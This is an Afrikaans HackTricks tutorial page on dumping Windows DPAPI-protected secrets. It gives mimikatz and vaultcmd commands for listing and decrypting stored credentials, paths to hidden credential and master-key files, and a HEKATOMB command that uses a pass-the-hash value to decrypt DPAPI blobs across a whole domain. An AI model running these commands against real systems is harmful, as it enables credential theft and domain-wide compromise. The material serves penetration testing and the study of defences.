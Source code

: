 # DPAPI - Uittreksel van Wagwoorde

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) is die mees relevante kuberveiligheid gebeurtenis in **Spanje** en een van die belangrikste in **Europa**. Met **die missie om tegniese kennis te bevorder**, is hierdie kongres 'n bruisende ontmoetingspunt vir tegnologie en kuberveiligheid professionele in elke dissipline.

{% embed url="https://www.rootedcon.com/" %}

## Wat is DPAPI

Die Data Protection API (DPAPI) word hoofsaaklik binne die Windows-bedryfstelsel gebruik vir die **simmetriese versleuteling van simmetriese private sleutels**, wat óf gebruikers- of stelselsêls as 'n belangrike bron van entropie benut. Hierdie benadering vereenvoudig versleuteling vir ontwikkelaars deur hulle in staat te stel om data te versleutel met 'n sleutel wat afgelei is van die gebruiker se aanmeldsêls of, vir stelselsversleuteling, die stelsel se domeinverifikasiesêls, wat die behoefte aan ontwikkelaars om die beskerming van die versleuteling sleutel self te bestuur, uitskakel.

### Beskermde Data deur DPAPI

Onder die persoonlike data wat deur DPAPI beskerm word, is:

* Internet Explorer en Google Chrome se wagwoorde en outo-voltooi data
* E-pos en interne FTP rekening wagwoorde vir toepassings soos Outlook en Windows Mail
* Wagwoorde vir gedeelde vouers, hulpbronne, draadlose netwerke, en Windows Vault, insluitend versleuteling sleutels
* Wagwoorde vir afstandskantoorverbindinge, .NET Passport, en private sleutels vir verskeie versleuteling en verifikasiedoele
* Netwerk wagwoorde bestuur deur Credential Manager en persoonlike data in toepassings wat CryptProtectData gebruik, soos Skype, MSN messenger, en meer

## Lys Vault
```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```
## Kredensiaal Lêers

Die **kredensiaal lêers wat beskerm word** kan geleë wees in:
```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
Kry geloofsbriewe-inligting met behulp van mimikatz `dpapi::cred`, in die antwoord kan jy interessante inligting vind soos die versleutelde data en die guidMasterKey.
```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
U kan die **mimikatz module** `dpapi::cred` met die toepaslike `/masterkey` gebruik om te ontsleutel:
```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
## Meester Sleutels

Die DPAPI sleutels wat gebruik word om die gebruiker se RSA sleutels te enkripteer, word gestoor onder die `%APPDATA%\Microsoft\Protect\{SID}` gids, waar {SID} die [**Sekuriteitsidentifiseerder**](https://en.wikipedia.org/wiki/Security\_Identifier) **van daardie gebruiker** is. **Die DPAPI sleutel word in dieselfde lêer gestoor as die meester sleutel wat die gebruiker se private sleutels beskerm**. Dit is gewoonlik 64 bytes van ewekansige data. (Let daarop dat hierdie gids beskerm is, so jy kan dit nie lys met `dir` vanaf die cmd nie, maar jy kan dit lys vanaf PS).
```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
Dit is hoe 'n klomp Meester Sleutels van 'n gebruiker sal lyk:

![](<../../.gitbook/assets/image (1121).png>)

Gewoonlik **is elke meester sleutel 'n versleutelde simmetriese sleutel wat ander inhoud kan ontsleutel**. Daarom is dit **interessant om die **versleutelde Meester Sleutel** te **onttrek** om later daardie **ander inhoud** wat daarmee versleuteld is, te **ontsleutel**.

### Onttrek meester sleutel & ontsleutel

Kyk na die pos [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin) vir 'n voorbeeld van hoe om die meester sleutel te onttrek en dit te ontsleutel.

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) is 'n C# poort van sommige DPAPI funksionaliteit van [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) projek.

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) is 'n hulpmiddel wat die onttrekking van alle gebruikers en rekenaars uit die LDAP gids en die onttrekking van domeinbeheerder rugsteun sleutel deur RPC outomatiseer. Die skrip sal dan alle rekenaars se IP-adresse oplos en 'n smbclient op alle rekenaars uitvoer om alle DPAPI blobs van alle gebruikers te verkry en alles met die domein rugsteun sleutel te ontsleutel.

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

Met die onttrekking van die LDAP rekenaarslys kan jy elke subnetwerk vind selfs al het jy nie daarvan geweet nie!

"Want Domein Admin regte is nie genoeg nie. Hack hulle almal."

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) kan geheime wat deur DPAPI beskerm word outomaties dump.

## Verwysings

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) is die mees relevante kuberveiligheid gebeurtenis in **Spanje** en een van die belangrikste in **Europa**. Met **die missie om tegniese kennis te bevorder**, is hierdie kongres 'n bruisende ontmoetingspunt vir tegnologie en kuberveiligheid professionele in elke dissipline.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

